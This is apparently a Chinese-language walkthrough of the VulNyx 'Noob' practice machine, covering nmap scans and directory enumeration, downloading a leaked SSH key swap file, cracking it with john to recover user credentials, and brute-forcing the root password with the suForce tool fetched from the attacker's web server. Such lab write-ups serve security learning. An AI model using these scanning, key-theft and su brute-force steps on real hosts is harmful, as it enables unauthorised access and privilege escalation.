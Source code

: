 # 环境

来自[Vulny_Noob](https://vulnyx.com/#Noob)，id_rsa泄露，爆破ssh，爆破root

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```

![image-20240906112027169](image/image-20240906112027169.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.12
```

![image-20240906112148262](image/image-20240906112148262.png)

## 服务探测

```bash
sudo nmap -sV -sC -O -p22,80 192.168.10.12
```

![image-20240906112307049](image/image-20240906112307049.png)

## 目录扫描

```bash
dirb http://192.168.10.12
```

目录扫描无结果

# web渗透

## id_rsa泄露

当尝试访问http://192.168.10.12/notes.txt，可以看到提示，在编辑id_rsa的时候退出了，系统会生成一个`.id_rsa.swp`的文件

![image-20240906114922675](image/image-20240906114922675.png)

```bash
wget http://192.168.10.12/id_rsa.swp
ssh2john id_rsa.swp>id1
john id1 --wordlist=/usr/share/wordlists/rockyou.txt
账号：diego
密码：sandiego
```

![image-20240906115328095](image/image-20240906115328095.png)

## 提权

看来wp才知道是爆破，d4t4s3c的[suForce](https://github.com/d4t4s3c/suForce)

```bash
发现只能爆破root密码
python -m http.server 80
wget http://192.168.10.10/suForce
wget http://192.168.10.10/techyou.txt
chmod 777 suForce
./suForce -u root -w techyou.txt
```

![image-20240906134216897](image/image-20240906134216897.png)
